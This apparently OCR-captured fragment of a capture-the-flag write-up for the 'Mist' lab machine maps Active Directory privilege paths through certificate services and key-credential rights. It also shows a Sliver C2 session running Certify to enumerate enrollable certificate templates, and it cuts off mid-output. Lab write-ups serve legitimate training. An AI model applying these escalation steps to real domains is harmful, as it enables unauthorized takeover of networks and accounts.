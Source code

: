 - op_markus.roheb ---> same of op_sharon.mullard

- svc_ca$ ---> same of brandon.keywarp
         |___ memberof ---> certificate services ---> AddKeyCredentialLink ---> svc_cabackup
                            |___ Enroll ---> managerauthentication

- svc_cabackup ---> same of brandon.keywarp
               |___ memberof ---> certificate services ---> Enroll ---> managerauthentication

- svc_smb ---> same of brandon.keywarp

```

#### enrollment certificate abuse

- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin


```
sliver (GRATEFUL_PERCH) > certify find /enrollable

[*] certify output:

   _____          _   _  __              
  / ____|        | | (_)/ _|             
 | |     ___ _ __| |_ _| |_ _   _        
 | |    / _ \ '__| __| |  _| | | |      
 | |___|  __/ |  | |_| | | | |_| |       
  \_____\___|_|   \__|_|_|  \__, |   
                             __/ |       
                            |___./        
  v1.1.0                               

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=mist,DC=htb'

[*] Listing info about the Enterprise CA 'mist-DC01-CA'

    Enterprise CA Name            : mist-DC01-CA
    DNS Hostname                  : DC01.mist.htb
    FullName                      : DC01.mist.htb\mist-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=mist-DC01-CA, DC=mist, DC=htb
    Cert Thumbprint               : A515DF0E980933BEC55F89DF02815E07E3A7FE5E
    Cert Serial                   : 3BF0F0DDF3306D8E463B218B7DB190F0
    Cert Start Date               : 2/15/2024 7:07:23 AM
    Cert End Date                 : 2/15/2123 7:17:23 AM
    Cert Chain                    : CN=mist-DC01-CA,DC=mist,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544
